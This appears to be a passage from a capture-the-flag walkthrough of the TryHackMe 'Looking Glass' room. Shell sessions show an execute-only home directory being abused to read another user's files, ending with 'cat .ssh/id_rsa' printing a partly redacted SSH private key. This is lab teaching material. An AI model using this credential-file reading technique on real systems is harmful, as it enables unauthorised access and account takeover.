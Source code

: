 ```
humptydumpty@looking-glass:~$ ls -l /home/
ls -l /home/
total 24
drwx--x--x 6 alice        alice        4096 Jul  3  2020 alice
drwx------ 3 humptydumpty humptydumpty 4096 Sep  1 07:54 humptydumpty
drwxrwxrwx 5 jabberwock   jabberwock   4096 Sep  1 07:32 jabberwock
drwx------ 5 tryhackme    tryhackme    4096 Jul  3  2020 tryhackme
drwx------ 3 tweedledee   tweedledee   4096 Jul  3  2020 tweedledee
drwx------ 2 tweedledum   tweedledum   4096 Jul  3  2020 tweedledum
```

With the `x` permission setting (`drwx--x--x`), even I do not have permission to view the directory:

```
humptydumpty@looking-glass:/home/alice$ ls -la
ls -la
ls: cannot open directory '.': Permission denied
```

I could read the file(s) inside it, for example:

```
humptydumpty@looking-glass:/home/alice$ cat .bashrc
cat .bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

# If not running interactively, don't do anything
case $- in
    *i*) ;;
      *) return;;
esac

[REDACTED]

# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
humptydumpty@looking-glass:/home/alice$
```

Therefore, I try to catch the content of **ssh** private key:

```
humptydumpty@looking-glass:/home/alice$ cat .ssh/id_rsa
cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpgIBAAKCAQEAxmPncAXisNjbU2xizft4aYPqmfXm1735FPlGf4j9ExZhlmmD
[REDACTED]
k6ywCnCtTz2/sNEgNcx9/iZW+yVEm/4s9eonVimF+u19HJFOPJsAYxx0
-----END RSA PRIVATE KEY-----
```
